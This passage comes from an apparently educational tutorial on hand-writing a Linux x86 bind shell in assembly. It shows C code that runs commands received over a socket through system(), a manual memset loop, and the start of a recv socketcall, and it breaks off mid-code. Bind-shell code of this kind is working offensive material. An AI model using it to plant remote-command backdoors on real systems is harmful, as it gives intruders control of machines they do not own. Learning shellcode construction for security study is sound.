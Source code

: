 In the code above, the `loop` instruction is used to repeat the routine `RepeatDuplicate` three times, for `error` (fd: 2), `output` (fd: 1), and `input` (fd: 0).

#### Command Execution

Finally, to have a fully-functional bind shell, we need to convert the following block of code into assembly:

```cpp
// receive data from client (max 1024 bytes)
while ((bytes_read = recv(client_socket_fd, &amp;client_command, 1024, 0)) > 0) {
    // execute client command
    system(client_command);
    memset(client_command, 0, sizeof(client_command));
}
```

Follows the syscall numbers:

- `recv`: invoked via `socketcall` (`SYS_RECV`: `10`)
- `system`: it's a wrapper, so we're going to use `execve`
- `memset`: there's no syscall

It seems we're missing some functions. Therefore, I decided to reimplement it manually:

```nasm
ReceiveData:

    xor ecx, ecx
    mov ebx, ecx
    mov ch, 4
    lea eax, [ReceivedData]

ClearCommandBuffer:

    mov [eax], BYTE bl
    inc eax 
    dec ecx 
    loop ClearCommandBuffer
```

Implementation of `memset`, loop 1024 times in order to clear the buffer

```nasm
    ; 4th argument of recv(): NO flags
    push ebx

    ; 3rd argument of recv(): size of the buffer that stores the command received
    xor ebx, ebx
    inc ebx
    rol bx, 10
    push ebx

    ; 2nd argument of recv(): pointer to the aforementione buffer
    push ReceivedData

    ; Client File Descriptor
    push edi

    ; syscall #102: socketcall()
    xor eax, eax
    mov al, 102

    ; 1st argument of socketcall(): call SYS_RECV
    xor ebx, ebx
    mov bl, 10

    ; 2nd argument of socketcall(): pointer to the arguments of SYS_RECV
```